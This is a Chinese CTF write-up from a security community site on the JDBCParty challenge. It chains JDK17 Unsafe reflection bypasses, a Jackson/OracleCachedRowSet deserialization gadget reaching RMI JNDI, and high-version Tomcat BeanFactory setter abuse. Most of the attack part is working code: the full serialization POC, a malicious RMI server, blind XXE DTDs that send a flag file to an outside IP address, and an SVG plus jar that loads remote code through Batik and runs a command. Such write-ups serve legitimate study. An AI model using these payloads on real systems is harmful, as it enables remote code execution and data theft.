# 从系统安全防护赛JDBCParty 学习高版本JDK和高版本Tomcat打JNDI到RCE-先知社区

> **来源**: https://xz.aliyun.com/news/16904  
> **文章ID**: 16904

---

之前有佬在群里发了如何反序列化触发到JNDI  
这里重新学习整理一下整个流程

看看高版本jdk和高版本tomcat如何触发到RCE

考点:高版本JDK反序列化+高版本JNDI打法

# JDK17+反射限制绕过

参考:<https://pankas.top/2023/12/05/jdk17-%E5%8F%8D%E5%B0%84%E9%99%90%E5%88%B6%E7%BB%95%E8%BF%87/>

这位师傅说的非常详细了

本质上就是 在jdk17及之后无法反射 `java.*` 包下非`public` 修饰的属性和方法 通过 `UnSafe`实现**调用类的module和Object类的module一样** 达到可以修改的目的

# 如何找到触发getter的JNDI

实际上就是这个项目 `Deserial_Sink_With_JDBC`

```
如果你：

厌倦了高版本JDK中TemplatesImpl已经被移除

寻找gadget却想不到sink

无法扩大JDBC攻击的危害

...

不妨试试以下JDBC与原生反序列化的结合 (以下sink均为getter触发，可配合cb、fj、jackson等链子使用)
```

<https://github.com/luelueking/Deserial_Sink_With_JDBC>  


# 为什么只能打RMI



做了 `validateJNDIName` 黑名单限制  
  
只可以打RMI远程方法调用

# 触发到JNDI的POC

这里`toString`链是 2024 阿里云CTF chain17官方WP中的 `toString` 通杀链

需要注意对 `BaseJsonNode`要去除其 `writeReplace`方法

建议本地实现包覆盖  


## poc类

```
package com.example.jdbcparty;
import javax.naming.spi.ObjectFactory;
import com.example.jdbcparty.model.User;
import com.fasterxml.jackson.databind.ObjectMapper;
import com.fasterxml.jackson.databind.SerializationFeature;
import com.fasterxml.jackson.databind.node.POJONode;
import oracle.jdbc.internal.Monitor;
import oracle.jdbc.rowset.OracleCachedRowSet;
import oracle.jdbc.rowset.OracleCachedRowSetReader;
import org.apache.catalina.UserDatabase;
import sun.misc.Unsafe;
import org.apache.catalina.users.MemoryUserDatabaseFactory;

import org.apache.naming.factory.BeanFactory;
import org.yaml.snakeyaml.Yaml;
import javax.swing.event.EventListenerList;
import javax.swing.undo.UndoManager;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Array;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.sql.SQLException;
import java.util.Base64;
import java.util.HashMap;
import java.util.Vector;
import org.apache.catalina.users.MemoryUserDatabaseFactory;
import static com.example.jdbcparty.Utils.*;

public class poc {
    public static void main(String[] args) throws Exception {
        ObjectMapper objectMapper = new ObjectMapper();
        objectMapper.configure(SerializationFeature.FAIL_ON_EMPTY_BEANS, false);

        Class unsafeClass = Class.forName("sun.misc.Unsafe");

        Field field = unsafeClass.getDeclaredField("theUnsafe");
        field.setAccessible(true);
        Unsafe unsafe = (Unsafe) field.get(null);
        Module baseModule = Object.class.getModule();
        Class currentClass = poc.class;
        long addr = unsafe.objectFieldOffset(Class.class.getDeclaredField("module"));
        unsafe.getAndSetObject(currentClass, addr, baseModule);
        User user = new User();
        //对于是否触发到getter方法实现的时候 考虑本地实现一个类看看
        OracleCachedRowSet oracleCachedRowSet = new OracleCachedRowSet();

        oracleCachedRowSet.setDataSourceName("rmi://localhost:1099/Object");
        new MemoryUserDatabaseFactory();

        UnSafeTools.setObject(oracleCachedRowSet,oracleCachedRowSet.getClass().getSuperclass().getDeclaredField("monitorLock"),null);
        Vector vector1 = new Vector();
        vector1.add(0,"111");
        Vector vector2 = new Vector();
        vector2.add(0,"222");
        String[] metaData= new String[]{"111","222"};

        UnSafeTools.setObject(oracleCachedRowSet,oracleCachedRowSet.getClass().getSuperclass().getDeclaredField("matchColumnIndexes"),vector1);
        UnSafeTools.setObject(oracleCachedRowSet,oracleCachedRowSet.getClass().getSuperclass().getDeclaredField("matchColumnNames"),vector2);
        UnSafeTools.setObject(oracleCachedRowSet,oracleCachedRowSet.getClass().getDeclaredField("metaData"),metaData);
        UnSafeTools.setObject(oracleCachedRowSet,oracleCachedRowSet.getClass().getDeclaredField("reader"),null);
        UnSafeTools.setObject(oracleCachedRowSet,oracleCachedRowSet.getClass().getDeclaredField("writer"),null);
        UnSafeTools.setObject(oracleCachedRowSet,oracleCachedRowSet.getClass().getDeclaredField("syncProvider"),null);
        POJONode pojoNode = new POJONode(oracleCachedRowSet);


        EventListenerList list = new EventListenerList();
        UndoManager manager = new UndoManager();
        Vector vector = (Vector) getFieldValue(manager, "edits");
        vector.add(pojoNode);
        setFieldValue(list, "listenerList", new Object[]{InternalError.class, manager});
        System.out.println(base64Encode(serialize(list)));


    }
    public static Field getField(final Class<?> clazz, final String fieldName) {
        Field field = null;
        try {
            field = clazz.getDeclaredField(fieldName);
            field.setAccessible(true);
        } catch (NoSuchFieldException ex) {
            if (clazz.getSuperclass() != null) {
                field = getField(clazz.getSuperclass(), fieldName);
            }
        }
        return field;
    }
    public static Object getFieldValue(Object obj, String fieldName) throws Exception{
        Field field = null;
        Class c = obj.getClass();
        for (int i = 0; i < 5; i++) {
            try {
                field = c.getDeclaredField(fieldName);
            } catch (NoSuchFieldException e){
                c = c.getSuperclass();
            }
        }
        field.setAccessible(true);
        return field.get(obj);
    }
    public static void setFieldValue(Object obj, String field, Object val) throws Exception{
        Field dField = obj.getClass().getDeclaredField(field);
        dField.setAccessible(true);
        dField.set(obj, val);
    }
    //HashMap打Spring的原生toString链
    public static HashMap<Object, Object> makeMap (Object v1, Object v2 ) throws Exception {
        HashMap<Object, Object> s = new HashMap<>();
        setFieldValue(s, "size", 2);
        Class<?> nodeC;
        try {
            nodeC = Class.forName("java.util.HashMap$Node");
        }
        catch ( ClassNotFoundException e ) {
            nodeC = Class.forName("java.util.HashMap$Entry");
        }
        Constructor<?> nodeCons = nodeC.getDeclaredConstructor(int.class, Object.class, Object.class, nodeC);
        nodeCons.setAccessible(true);

        Object tbl = Array.newInstance(nodeC, 2);
        Array.set(tbl, 0, nodeCons.newInstance(0, v1, v1, null));
        Array.set(tbl, 1, nodeCons.newInstance(0, v2, v2, null));
        setFieldValue(s, "table", tbl);
        return s;
    }

    public static byte[] base64Decode(String base64) {
        Base64.Decoder decoder = Base64.getDecoder();
        return decoder.decode(base64);
    }

    public static String base64Encode(byte[] bytes) {
        Base64.Encoder encoder = Base64.getEncoder();
        return encoder.encodeToString(bytes);
    }

    public static byte[] serialize(final Object obj) throws Exception {
        ByteArrayOutputStream btout = new ByteArrayOutputStream();
        ObjectOutputStream objOut = new ObjectOutputStream(btout);
        objOut.writeObject(obj);
        return btout.toByteArray();
    }

    public static Object deserialize(final byte[] serialized) throws Exception {
        ByteArrayInputStream btin = new ByteArrayInputStream(serialized);
        ObjectInputStream objIn = new ObjectInputStream(btin);
        return objIn.readObject();

    }
}

```

## UnSafeTools类

```
package com.example.jdbcparty;
import java.lang.reflect.Field;
import java.lang.reflect.Method;
import sun.misc.Unsafe;

public class UnSafeTools {
    static Unsafe unsafe;

    public UnSafeTools() {
    }

    public static Unsafe getUnsafe() throws Exception {
        Field field = Unsafe.class.getDeclaredField("theUnsafe");
        field.setAccessible(true);
        unsafe = (Unsafe)field.get((Object)null);
        return unsafe;
    }

    public static void setObject(Object o, Field field, Object value) {
        unsafe.putObject(o, unsafe.objectFieldOffset(field), value);
    }

    public static Object newClass(Class c) throws InstantiationException {
        Object o = unsafe.allocateInstance(c);
        return o;
    }

    public static void bypassModule(Class src, Class dst) throws Exception {
        Unsafe unsafe = getUnsafe();
        Method getModule = dst.getDeclaredMethod("getModule");
        getModule.setAccessible(true);
        Object module = getModule.invoke(dst);
        long addr = unsafe.objectFieldOffset(Class.class.getDeclaredField("module"));
        unsafe.getAndSetObject(src, addr, module);
    }

    static {
        try {
            Field field = Unsafe.class.getDeclaredField("theUnsafe");
            field.setAccessible(true);
            unsafe = (Unsafe)field.get((Object)null);
        } catch (Exception var1) {
            System.out.println("Error: " + var1);
        }

    }
}

```

# 高版本JNDI打法

建议参考 浅蓝师傅的文章(经典好文~)

[探索高版本 JDK 下 JNDI 漏洞的利用方法](https://tttang.com/archive/1405/)

## tomcat高版本限制

值得注意的是这里 Spring-boot内置版本是tomcat `10.1.31`



Tomcat 在`9.0.62`后在`BeanFactory`里对`forceString` 进行了判断

直接打 `BeanFactory`的老路已经行不通了 什么EL和SnakeYaml都打不了

建议参考 [高版本JNDI注入-高版本Tomcat利用方案](https://xz.aliyun.com/news/16156) 但是这道题实现不了Sink点 需要重新找Sink点



## XXE

浅蓝师傅的文章中有通过 `org.apache.catalina.users.MemoryUserDatabaseFactory` 打本地工厂类实现XXE 考虑可以通过XXE盲注实现`任意文件读取`

原文没有具体代码这里贴一下 RMI 恶意服务端

```
import com.sun.jndi.rmi.registry.ReferenceWrapper;
import org.apache.naming.ResourceRef;

import javax.naming.InitialContext;
import javax.naming.NamingException;
import javax.naming.StringRefAddr;
import java.rmi.AlreadyBoundException;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class RMIXXE {
    public static void main(String[] args) throws NamingException, RemoteException, AlreadyBoundException {
        System.out.println("[*]Evil RMI Server is Listening on port: 1099");
        Registry registry = LocateRegistry.createRegistry( 1099);
        ResourceRef resourceRef = new ResourceRef("org.apache.catalina.UserDatabase",null,"","",
                true,"org.apache.catalina.users.MemoryUserDatabaseFactory",null );
        resourceRef.add(new StringRefAddr("pathname", "http://192.227.165.134/xxe.xml"));
        ReferenceWrapper referenceWrapper = new ReferenceWrapper(resourceRef);
        registry.bind("Object", referenceWrapper);
    }
}
```

XXE盲注Payload

xxe.xml

```
<!DOCTYPE convert [
<!ENTITY % remote SYSTEM "http://192.227.165.134/test.dtd">
%remote;%int;%send;
]>
```

test.dtd

```
<!ENTITY % file SYSTEM "file://D://flag.txt">
<!ENTITY % int "<!ENTITY &#37; send SYSTEM 'http://192.227.165.134:8888/1.txt?p=%file;'>">
```

这里是Windows环境 可以触发XXE但是 **没有实现任意文件读取**

可能是Windows环境原因???   
有空Linux试试 但是又要改POC太麻烦了 留个坑

## 利用CVE-2022-39197实现RCE

群里有佬提了一句 就自己探索一下

参考: [CobaltStrike RCE漏洞分析](https://mp.weixin.qq.com/s/fZtDvpyAo-UZRE9MhfB0VQ)

​

细心一点可以发现存在第三方依赖 batik-swing



结合文章进行相应修改和应用  
会发现Sink点是 `JSVGCanvas#setURL` 可以svg2RCE  


### 高版本Tomcat实现触发任意类setter

之前我们说过 tomcat高版本 虽然对`toString`做了限制

但是可以通过`JavaBeans Introspector` 实现获取任意类的bean之后就可以调用任意类的的setter方法 而且可以实现**任意传参**

所以我们可以通过 `BeanFactory`实现**调用任意setter方法并且传参**

获取JavaBean的`WriteMethod`也就是所有`setter`方法  
  
通过反射实现调用  


  
直接触发到 `JSVGCanvas#setURL`  
  
至于这里为什svg要这样写

这个是一个间隔了20年的漏洞直接拿来用就是了(可以自己研究一下)

calc.svg

```
<svg xmlns="http://www.w3.org/2000/svg" width="100" height="100" xmlns:xlink="http://www.w3.org/1999/xlink">
        <script type="application/java-archive" xlink:href="http://127.0.0.1:7001/exp.jar"> 
</script>  
</svg>
```

  
触发到 `org.apache.batik.bridge.BaseScriptingEnvironment#loadScript`实现远程类加载

一种是实现`EventListenerInitializer`类，`MANIFEST.MF`指定`SVG-Handler-Class`。

一种是实现`ScriptHandler`类，`MANIFEST.MF`指定`Script-Handler`

这里以 文章中提到的`EventListenerInitializer`为例子  


可以实现远程类加载实例化并且执行 `initializeEventListeners`方法意味着可以执行任意命令

### 编写exp.jar

注意这里用的是 batik-ext-1.5.jar 远古版本 这里贴一下下载链接

<http://www.java2s.com/Code/Jar/b/Downloadbatikext15jar.htm>  
导入lib库后



实现 `initializeEventListeners`方法

exp.jar

```
import java.io.IOException;  
import org.w3c.dom.svg.SVGDocument;  
import org.w3c.dom.svg.EventListenerInitializer;  
public class Main implements EventListenerInitializer {  
  
    @Override  
    public void initializeEventListeners(SVGDocument svgDocument) {  
        try {  
            Runtime.getRuntime().exec("calc");  
        } catch (IOException e) {  
            e.printStackTrace();  
        }  
    }  
    public static void main(String[] args) {  
        System.out.println("Hello,J1rrY");  
    }  
  
}
```

手动加上`META-INF/MANIFEST.MF` 后打包为jar



```
Manifest-Version: 1.0  
Main-Class: Main  
SVG-Handler-Class: Main
```



一定一定注意 exp.jar放在其他端口 **同一端口不行**(什么鬼bug)


